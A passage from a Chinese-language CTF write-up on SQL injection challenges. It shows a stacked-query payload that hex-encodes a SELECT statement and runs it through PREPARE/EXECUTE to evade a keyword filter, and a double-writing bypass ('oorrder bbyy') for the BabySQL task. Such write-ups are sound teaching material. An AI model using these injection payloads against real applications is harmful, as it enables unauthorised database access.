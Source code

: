 成功获取flag

![image-20250131112930603](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250131114625294.png)

还看到另一个方法

因为select被过滤了，考虑用编码进行绕过

```sql
select * from `1919810931114514`
```

使用hex加密

```
0x73656c656374202a2066726f6d20603139313938313039333131313435313460
```

最终

```
1';
Set@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

> ```
> Set@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
> ```
>
> 设置一个变量@a，并赋值
>
> ```
> prepare execsql from @a;
> ```
>
> 这个是预处理语句，将@a的值（解码后的sql语句）作为预处理语句的内容，命名为execsql
>
> ```
> execute execsql;
> ```
>
> 执行预处理语句

### [极客大挑战 2019]BabySQL

注了半天，没想明白怎么注的，查的wp

发现原来是被过滤成空格了，如select、union 、or等都被变成空格了，这里学到一个新的绕过方法：双写绕过  
原理很简单，就是网站的过滤有时候可能没那么严谨，只会过滤掉一些关键词，我们找到这些关键词，如select，就可以用`seselectlect`​，当过滤掉select时，剩下的字符串拼接在一起，就会恢复成原始有效的关键字，进行绕过

```
?username=1%2B&password=admin' oorrder bbyy 4 --+
```

这里因为过滤掉了or，所以使用order的时候就回先过滤掉or，只要绕过or就会拼接成order
